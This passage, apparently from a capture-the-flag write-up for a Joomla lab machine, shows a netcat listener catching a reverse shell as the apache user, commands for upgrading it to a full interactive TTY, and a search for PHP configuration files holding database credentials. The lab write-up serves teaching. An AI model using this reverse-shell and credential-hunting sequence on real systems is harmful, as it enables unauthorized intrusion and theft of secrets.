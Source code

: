 ![Desktop View](DailyBugleReverseShell.png)

Once modified, click the button **Save**, then we just have to set a `netcat` listener and access the following URL: ***http://10.10.246.66***.

```bash
❯ nc -nvlp 443
listening on [any] 443 ...
connect to [10.14.99.119] from (UNKNOWN) [10.10.246.66] 49842
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 12:39:50 up 35 min,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ whoami
apache
```

## Shell as Apache

### TTY Treatment 

Once we get the reverse shell, let's find a way to scale privileges, but before, we have to get a fully interactive shell, there are multiple ways but i like to do it this way: 

```bash
script /dev/null -c bash
```

Then press *Ctrl+Z* to get the process in background.

Now that you are in your machine execute the next command:

```bash
stty raw -echo;fg
```

Now write `reset xterm` and you should have a better looking shell but you still have to execute a few commands:

```bash
export TERM=xterm
export SHELL=bash
stty rows 45 columns 184
```

Make a `stty size` in your own shell to know the rows and columns.

Once with a stable shell, we can begin with the **privilege escalation** phase, i checked the `sudoers`, `SUID binaries`, etc. Nothing found, remembering that there is a `mySQL` database up, so let's seek for a `config` file with valid credentials.

```bash
bash-4.2$ find / -name "*config*.php*" 2>/dev/null 
/var/www/html/administrator/components/com_admin/views/sysinfo/tmpl/default_config.php
/var/www/html/administrator/components/com_config/config.php
/var/www/html/administrator/components/com_config/helper/config.php
/var/www/html/administrator/components/com_config/model/field/configcomponents.php
/var/www/html/administrator/components/com_messages/controllers/config.php
/var/www/html/administrator/components/com_messages/models/config.php
/var/www/html/administrator/templates/hathor/html/com_admin/sysinfo/default_config.php
/var/www/html/components/com_config/config.php
/var/www/html/components/com_config/model/config.php
/var/www/html/libraries/cms/component/router/viewconfiguration.php
/var/www/html/configuration.php
```
